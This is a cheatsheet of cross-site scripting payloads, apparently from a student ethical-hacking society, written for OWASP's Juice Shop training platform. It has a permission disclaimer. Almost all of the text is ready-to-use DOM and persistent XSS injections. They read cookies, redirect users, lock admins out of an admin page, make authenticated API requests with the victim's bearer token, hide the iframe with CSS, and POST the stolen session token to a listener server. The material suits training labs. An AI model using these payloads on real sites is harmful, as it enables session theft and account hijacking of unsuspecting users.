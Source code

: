 **Tags:**
- #XSS
- #Cheatsheet 

**Category:**
- #Web-Exploitation 

---


# Disclaimer

All scripts developed for educational purposes during sessions with Sheffield Ethical Student Hackers Society, and executed on OWASP's dedicated Juice Shop training platform. Do not execute these scripts unless you have explicit permission. SESH Code of Conduct can be found [here](https://shefesh.com/downloads/SESH%20Code%20of%20Conduct.pdf).

# DOM XSS

To be injected via the search bar. Renders immediately after executing search.

## Printing Cookies to Screen

`<iframe src="javascript:alert(document.cookie)">`

## Redirect to SESH Website

`<iframe src="javascript:window.top.location.href = 'http://www.shefesh.com';">`

## Add an item to Basket

`<iframe src="javascript:var http = new XMLHttpRequest(); var url = '/api/BasketItems'; http.open('POST', url); var cookie = document.cookie; var token = cookie.substring(cookie.indexOf('token=') + 6); http.setRequestHeader('Content-Type', 'application/json'); http.setRequestHeader('Authorization', 'Bearer ' + token); http.send(JSON.stringify({'ProductId':2, 'BasketId':'1', 'quantity':1}));">`

# Persistent XSS

To be injected via the customer feedback form. Renders on both 'About Us' and 'Administration' pages.

## Printing Cookies to Screen

`<<script>Foo</script>iframe src="javascript:alert(document.cookie)">`

## Redirect to Homepage

Especially irritating script - prevents admins from viewing the Administration page.

`<<script>Foo</script>iframe src="javascript:window.top.location.href = ‘/#/’;">`

## Add an item to Basket

`<<script>Foo</script>iframe src="javascript:var http = new XMLHttpRequest(); var url = '/api/BasketItems'; http.open('POST', url); var cookie = document.cookie; var token = cookie.substring(cookie.indexOf('token=') + 6); http.setRequestHeader('Content-Type', 'application/json'); http.setRequestHeader('Authorization', 'Bearer ' + token); http.send(JSON.stringify({'ProductId':2, 'BasketId':'1', 'quantity':1}));">`

## Steal the Current User's Token

Best applied via persistent XSS, although can be used as DOM. Must have a server running - see [my script](https://github.com/Twigonometry/CTF-Tools/blob/master/scripts/simple-python-server.py).

`<<script>Foo</script>iframe src="javascript:var http = new XMLHttpRequest(); var url = 'http://localhost:8000'; http.open('POST', url); var cookie = document.cookie; var token = cookie.substring(cookie.indexOf('token=') + 6); http.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded'); http.send(JSON.stringify({'StolenToken':token}));">`

# Sneaky Payload

Makes use of CSS style options to conceal the iframe. Can be applied to any of above payloads.

`<iframe style=“width: 1px; height: 1px; display: none;” src=“javascript:alert(‘xss’);”>`